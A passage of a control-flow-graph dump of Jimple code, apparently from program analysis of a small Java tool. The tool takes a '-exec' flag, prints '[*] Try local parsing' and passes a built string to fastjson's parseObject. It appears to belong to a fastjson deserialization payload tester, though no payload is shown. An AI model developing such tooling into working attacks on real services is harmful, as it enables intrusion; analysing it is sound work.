specialinvoke $r9.<java.lang.StringBuilder: void <init>()>();
"->"Block 22:
[preds: 21 ] [succs: 23 36 ]
$r11 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\");
";
    "Block 21:
[preds: 20 ] [succs: 22 36 ]
specialinvoke $r9.<java.lang.StringBuilder: void <init>()>();
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 22:
[preds: 21 ] [succs: 23 36 ]
$r11 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\");
"->"Block 23:
[preds: 22 ] [succs: 24 36 ]
$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r25);
";
    "Block 22:
[preds: 21 ] [succs: 23 36 ]
$r11 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\");
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 23:
[preds: 22 ] [succs: 24 36 ]
$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r25);
"->"Block 24:
[preds: 23 ] [succs: 25 36 ]
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\");
";
    "Block 23:
[preds: 22 ] [succs: 24 36 ]
$r12 = virtualinvoke $r11.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r25);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 24:
[preds: 23 ] [succs: 25 36 ]
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\");
"->"Block 25:
[preds: 24 ] [succs: 26 36 ]
$r14 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.String toString()>();
";
    "Block 24:
[preds: 23 ] [succs: 25 36 ]
$r13 = virtualinvoke $r12.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"\n\");
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 25:
[preds: 24 ] [succs: 26 36 ]
$r14 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.String toString()>();
"->"Block 26:
[preds: 25 ] [succs: 27 36 ]
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>($r14);
";
    "Block 25:
[preds: 24 ] [succs: 26 36 ]
$r14 = virtualinvoke $r13.<java.lang.StringBuilder: java.lang.String toString()>();
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 26:
[preds: 25 ] [succs: 27 36 ]
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>($r14);
"->"Block 27:
[preds: 26 ] [succs: 28 36 ]
$i1 = lengthof r0;
";
    "Block 26:
[preds: 25 ] [succs: 27 36 ]
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>($r14);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 27:
[preds: 26 ] [succs: 28 36 ]
$i1 = lengthof r0;
"->"Block 28:
[preds: 27 ] [succs: 29 35 36 ]
if $i1 != 3 goto (branch);
";
    "Block 27:
[preds: 26 ] [succs: 28 36 ]
$i1 = lengthof r0;
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 28:
[preds: 27 ] [succs: 29 35 36 ]
if $i1 != 3 goto (branch);
"->"Block 29:
[preds: 28 ] [succs: 30 36 ]
$r15 = r0[2];
";
    "Block 28:
[preds: 27 ] [succs: 29 35 36 ]
if $i1 != 3 goto (branch);
"->"Block 35:
[preds: 28 31 34 ] [succs: 37 ]
goto [?= return];
";
    "Block 28:
[preds: 27 ] [succs: 29 35 36 ]
if $i1 != 3 goto (branch);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 29:
[preds: 28 ] [succs: 30 36 ]
$r15 = r0[2];
"->"Block 30:
[preds: 29 ] [succs: 31 36 ]
$z0 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
";
    "Block 29:
[preds: 28 ] [succs: 30 36 ]
$r15 = r0[2];
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 30:
[preds: 29 ] [succs: 31 36 ]
$z0 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
"->"Block 31:
[preds: 30 ] [succs: 32 35 36 ]
if $z0 == 0 goto (branch);
";
    "Block 30:
[preds: 29 ] [succs: 31 36 ]
$z0 = virtualinvoke $r15.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 31:
[preds: 30 ] [succs: 32 35 36 ]
if $z0 == 0 goto (branch);
"->"Block 32:
[preds: 31 ] [succs: 33 36 ]
$r16 = <java.lang.System: java.io.PrintStream out>;
";
    "Block 31:
[preds: 30 ] [succs: 32 35 36 ]
if $z0 == 0 goto (branch);
"->"Block 35:
[preds: 28 31 34 ] [succs: 37 ]
goto [?= return];
";
    "Block 31:
[preds: 30 ] [succs: 32 35 36 ]
if $z0 == 0 goto (branch);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 32:
[preds: 31 ] [succs: 33 36 ]
$r16 = <java.lang.System: java.io.PrintStream out>;
"->"Block 33:
[preds: 32 ] [succs: 34 36 ]
virtualinvoke $r16.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
";
    "Block 32:
[preds: 31 ] [succs: 33 36 ]
$r16 = <java.lang.System: java.io.PrintStream out>;
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 33:
[preds: 32 ] [succs: 34 36 ]
virtualinvoke $r16.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
"->"Block 34:
[preds: 33 ] [succs: 35 36 ]
staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r25);
";
    "Block 33:
[preds: 32 ] [succs: 34 36 ]
virtualinvoke $r16.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 34:
[preds: 33 ] [succs: 35 36 ]
staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r25);
"->"Block 35:
[preds: 28 31 34 ] [succs: 37 ]
goto [?= return];
";
    "Block 34:
[preds: 33 ] [succs: 35 36 ]
staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r25);
"->"Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
";
    "Block 35:
[preds: 28 31 34 ] [succs: 37 ]
goto [?= return];
"->"Block 37:
[preds: 35 36 ] [succs: ]
return;
";
    "Block 36:
[preds: 0 1 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 ] [succs: 37 ]
$r19 := @caughtexception;
r26 = $r19;
virtualinvoke r26.<java.lang.Exception: void printStackTrace()>();
"->"Block 37:
[preds: 35 36 ] [succs: ]
return;
";
}
